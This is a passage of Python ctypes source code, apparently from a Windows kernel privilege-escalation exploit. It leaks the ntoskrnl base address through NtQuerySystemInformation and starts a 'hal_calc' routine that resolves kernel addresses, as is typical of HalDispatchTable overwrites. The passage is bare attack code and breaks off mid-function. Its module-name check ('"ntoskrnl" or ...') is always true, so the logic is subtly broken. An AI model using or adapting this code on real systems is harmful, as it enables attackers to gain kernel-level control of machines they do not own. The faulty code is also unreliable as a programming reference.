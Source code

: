 ```python
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    sys_info = create_string_buffer(sys_info_len.value)

    result = ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    if result == 0x0:
        print("[*] Success, allocated {}-byte result buffer".format(str(len(sys_info))))

    else:
        print("[!] NtQuerySystemInformation failed with NTSTATUS: {}".format(hex(result)))

    class SYSTEM_MODULE_INFORMATION(Structure):
        _fields_ = [("Reserved", c_void_p * 2),
                    ("ImageBase", c_void_p),
                    ("ImageSize", c_long),
                    ("Flags", c_ulong),
                    ("LoadOrderIndex", c_ushort),
                    ("InitOrderIndex", c_ushort),
                    ("LoadCount", c_ushort),
                    ("ModuleNameOffset", c_ushort),
                    ("ImageName", c_char * 256)]

    # thanks GradiusX
    handle_num = c_ulong(0)
    handle_num_str = create_string_buffer(sys_info.raw[:8])
    memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))

    sys_info = create_string_buffer(sys_info.raw[8:])

    counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)

def hal_calc(img_name, kernel_base):

    
    kernel32.LoadLibraryA.restype = c_uint64
    kernel32.GetProcAddress.argtypes = [c_uint64, POINTER(c_char)]
    kernel32.GetProcAddress.restype = c_uint64
    
    kern_handle = kernel32.LoadLibraryA(img_name)
```